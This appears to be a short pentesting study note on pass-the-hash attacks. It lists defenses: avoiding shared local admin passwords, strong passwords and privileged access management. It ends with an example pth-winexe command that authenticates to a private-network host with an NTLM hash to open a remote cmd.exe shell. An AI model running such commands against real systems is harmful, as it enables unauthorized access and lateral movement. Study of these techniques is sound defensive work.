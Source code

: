Hard to completely prevent, but we can make it more difficult on an attacker:
- Limit account re-use
	- Avoid re-using local admin password
	- Disable Guest and Administrator accounts
	- Limit who is a local administrator (least privilege)
- Utilize strong passwords
	- The longer the better (>14 characters)
	- Avoid using common words
	- I like long sentences 
- Privilege Access Management (PAM)
	- Check out/in sensitive accounts when needed 
	- Automatically rotate passwords on check out and check in 
	- Limits pass attacks as hash/password is strong and constantly rotated 

# Examples
- Pass the hash doesn't work with NTLMv2 
- Second part of the hash is the one that can be passed

## cme
![[Crackmapexec]]

## psexec
![[psexec]]

# Pth-Winexe

```
pth-winexe -U cs.org/Administrador %aad3b435b51404eeaad3b435b51404ee:2b73e1a325df8ca7bd82063457391964 //192.168.200.129 cmd.exe
```



---
Tags: #passhash 
